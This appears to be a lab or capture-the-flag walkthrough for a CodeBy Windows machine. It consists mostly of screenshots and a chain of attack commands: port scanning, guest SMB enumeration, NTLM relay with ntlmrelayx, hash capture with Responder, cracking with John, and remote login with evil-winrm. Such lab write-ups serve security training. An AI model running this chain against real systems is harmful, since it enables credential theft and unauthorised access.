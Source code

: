 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/63b137ab-9199-4d90-ace4-48d25173c9eb)

```
nmap -sT -sV 192.168.2.10 -p- -v -sC   
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51a14674-777b-4d0b-af75-8fa1dafbb111)

```
smbmap -H 192.168.2.10 -u "guest" -p "" -d codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9614c6dd-1708-4ce1-ba8c-d8f31e30c194)
```
smbclient -no-pass //192.168.2.10/Files-for-checkers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ac244dec-07a4-4de4-8c10-7660ac6cb37a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b3e7b5b1-a533-4e9e-9c8a-f0e0e53ec1a3)

```
impacket-ntlmrelayx -t 192.168.2.10  -smb2support -debug  
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a984c248-c211-4e67-8ca4-c3d99cd73c36)

https://pentestlab.blog/tag/smb-relay/

https://xakep.ru/2023/04/07/ntlm-relay-guide/#toc04.2

```
sudo responder -wd -I eth0
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cdbe0d6-b20f-477e-abd0-acd2923370f5)

```
john --wordlist=/home/kali/PAYLOADS/rockyou.txt hash_pass.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e216110c-dd36-4911-826a-9bbb3a9e54b2)
```
evil-winrm -i 192.168.2.10 -u 'LOGIN' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ced3007d-f8a7-4737-8bad-9dee47deb159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f16b6da8-76f4-4340-a34f-fa898db1179c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f74c3a4b-9d74-4460-a305-db0363889c3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d6fa22e4-c734-43e5-bb3f-a9c65a51d086)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e909d3ab-97fd-43c7-a5a7-b2c0663d73ea)
```
evil-winrm -i 192.168.2.10 -u 'LOGIN' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9ef9c537-437a-476f-8f31-74b675413def)



